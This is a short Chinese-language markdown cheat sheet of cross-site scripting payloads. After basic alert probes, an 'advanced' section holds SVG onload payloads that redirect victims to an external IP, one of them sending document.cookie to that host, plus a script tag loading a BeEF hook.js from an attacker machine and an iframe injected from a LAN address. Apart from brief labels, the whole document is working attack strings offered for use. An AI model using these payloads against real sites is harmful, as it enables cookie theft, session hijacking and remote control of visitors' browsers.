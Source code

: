 ## xss 检测用 payload

<svg onload="eval('document.cookie')"//

<svg onload=alert(1)

<svg/onload=eval(atob('YWxlcnQoJ1hTUycp'))>

## 进阶食用

<svg/onload=location='http://124.222.21.138:10086'>

<svg/onload=location='http://124.222.21.138:10086?cookie='+document.cookie;>

<script src="http://BeEF主机-IP:3000/hook.js"></script> // kali beef-xss test

<svg/onload=location='http://124.222.21.138:10086/hook.js'>

<svg/onload="var iframe = document.createElement('iframe');iframe.src = 'http://192.168.80.128:8888';document.body.appendChild(iframe);">   // 测试能否动态加载 js

